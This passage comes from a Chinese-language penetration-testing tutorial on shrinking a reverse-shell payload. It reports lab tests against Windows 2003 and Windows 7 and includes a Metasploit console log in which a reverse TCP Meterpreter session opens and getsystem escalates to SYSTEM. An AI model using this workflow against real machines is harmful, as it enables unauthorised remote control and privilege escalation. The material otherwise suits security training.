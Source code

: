 **第三次靶机测试：**分别测试Windows 2003，Windws 7，reverse OK。并且最终编译运行库依然为：**/MT**  

![](media/4e172aa523497f62e049cc0e7dfb622a.jpg)

![](media/25c74a3a578b2e23477821175b489769.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 11 opened (192.168.1.5:53 ‐> 192.168.1.119:3894) at 2019‐01‐27 14:56:30 ‐0500 6
meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > getpid
Current pid: 3152
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
![](media/74defd3d7b4b42c88aadac9d9d4fd476.jpg)

### 第四次优化payload：

.......

文中的前三次优化，三次生成，已满足大部分实战场景。当遇到更苛刻的实战场景，75776字节优化到3174字节，接下来的季中，会继续优化。

>   Micropoor
